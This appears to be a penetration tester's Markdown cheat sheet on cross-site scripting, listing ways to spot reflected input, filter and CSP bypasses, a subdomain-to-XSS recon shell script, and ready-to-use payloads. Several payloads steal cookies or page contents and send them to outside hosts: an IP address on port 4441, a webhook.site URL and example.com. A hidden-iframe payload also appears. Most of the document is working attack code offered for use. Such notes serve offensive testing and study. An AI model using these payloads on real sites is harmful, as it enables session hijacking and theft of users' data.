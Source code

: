 XSS

## Cheat sheet

https://portswigger.net/web-security/cross-site-scripting/cheat-sheet


---

## Recognition

1. Figure out where it goes. Does it get embedded in a tag attribute ? into a string in a script tag ?
2. Figure out any special handling : Do URLs get turned into links ?
3. Figure out how special characters are handled : Try these `1234```'<>:;"'`

- From those 3 steps, you'll know whether or not a givin input is vulnerable to XSS.
r(reflected)XSS are dependent on CSRF vulnerabilities to be exploitable, in the case of POST. If rXSS in GET, you are dependent on CSRF otherwise.

- Example 1 : Testing character, angle brackets ```<>``` are passed through without encoding
and text is shown in a text node of the document. Here a simple ```<script>alert("XSS");</script>``` will work.

- Example 2 : THe input is reflected in a tag attribute. You have to break out of the attribute, but in most cases you don't need to leave the tag; meaning no need for angle brackets.

--- 

## Encoding is done using HTML-encoding

- Named : `<` equal `&lt`, `>` equals `&gt;`, `"` equals `&quot;`, `&` equals `&amp;`
- Hex : use `man ascii`, for ex `'` is `0x27` equals `&#x27;`. Same principle for the others.
- Decimal : use `man ascii`, for ex `<` is `60` equals `&#60`, same principle for the others.

---

## Try playing with uppercase and lowercase

---

## Sometimes, it's not filtered recursively :

`https://example.com/test.php?arg=<scr<script>ipt>alert('1')</scr</script>ipt>`

---

## Script word is blocked

- with the `<a` tag and for the following events: `onmouseover` (you will need to pass your mouse over the link), `onmouseout, onmousemove, onclick` ...

- with the `<a` tag directly in the URL: `<a href='javascript:alert(1)'...` (you will need to click the link to trigger the JavaScript code and remember that this won't work since you cannot use script in this example).

- with the `<img` tag directly with the event onerror: `<img src='zzzz' onerror='alert(1)' />`.

- with the `<div` tag and for the following events: `onmouseover` (you will need to pass your mouse over the link), `onmouseout, onmousemove, onclick`...
...

---

## Alert() is blocked

Use console.log or eval and stringfromcharcode

- Encode alert(1) in decimal : 97 108 101 114 116 40 49 41 

---

## Used inside a var

escape from it (generally with a `"`), add `;`, write your code and comment the end with `\\` or add another variable `var $dummy = "`

---

## Don't check just the field box, check also by adding stuff in the url

For example, you found an input field but the characters are encoded. Viewing the page source, and adding stuff at the end of the url, you see that it's reflected in the page source : `/index.php/tezfzefze` is inside the page source. Try to inject your stuff here too !

---

## Short cheat sheet 

```
"><h1>test</h1>"
'+alert(1)+'
"onmouseover="alert(1)
http://"onmouseover="alert(1)
```
If one of these work, you just have to find the good one !

---


## With an iframe , it's possible to get same result but in a stealthier manner :

```<iframe SRC="http://10.11.0.156:81/report" height = “0” width = “0”></iframe>```


---

## Steal the cookies :

```<script>new Image().src="http://10.11.0.156:4441/bogus.php?output="%2Bdocument.cookie;</script>```

```
<script>document.write("<img src='https://webhook.site/ae4ca108-7f0c-4ae2-98d7-e47976330ad1?test="+document.cookie+"'></img>");</script>
```

---

## TOOL TO TEST 

https://github.com/Damian89/extended-xss-search

---

## Check how it is reflected

- Any weird character ? Encoded ? Double encoded ? 


---

## Bypass CSP

- Check the header content-security-policy (burp or dev tools)
- Copy paste the url or the header into https://csp-evaluator.withgoogle.com/
- Don't bother with the warning about object-src, too old thing.


### default-src 

- means that it will only execute javascript from the server. So here, use the javascript at your disposal from the server.

-  To solve it : according to the documentation, the srcdoc attribute overrides the src attribute and specifies the HTML content to show inside the iframe. But most importantly, the iframe with the srcdoc attribute is not cross domain, meaning that the content will be treated as coming from the same domain as the parent-page. 

```<iframe srcdoc="<script src=...></script>"></iframe>```

Example from the intigriti easter xss challenge : ```<iframe srcdoc="<script src=https://challenge.intigriti.io/'-alert(document.domain)-'></script>"></iframe>```

### Resources :
https://lab.wallarm.com/how-to-trick-csp-in-letting-you-run-whatever-you-want-73cb5ff428aa/
https://www.nccgroup.com/us/about-us/newsroom-and-events/blog/2019/april/a-novel-csp-bypass-using-data-uri/


### Simple XSS Check

By @TobiunddasMoe


```
#!/bin/bash
# $1 => example.domain

subfinder -d $1 -o domains_subfinder_$1
amass enum --passive -d $1 -o domains_$1

cat domains_subfinder_$1 | tee -a domain_$1
cat domains_$1 | filter-resolved | tee -a domains_$1.txt

cat domains_$1.txt | ~/go/bin/httprobe -p http:81 -p http:8080 -p https:8443 | waybackurls | kxss | tee xss.txt

```

### Prove impact easily

- ```xsscope```

---

## exfiltrate content without script tag  


use webhook.site, and replace the url inside

```
<svg onload="window.location.href = '//webhook.site/ae4ca108-7f0c-4ae2-98d7-e47976330ad1?c='+btoa(document.documentElement.innerHTML)">
```

Then go on webhook.site and wait for the cookie.

With img : 

```
<svg onload="new Image().src='//example.com/?x='+btoa(document.documentElement.innerHTML)">
```

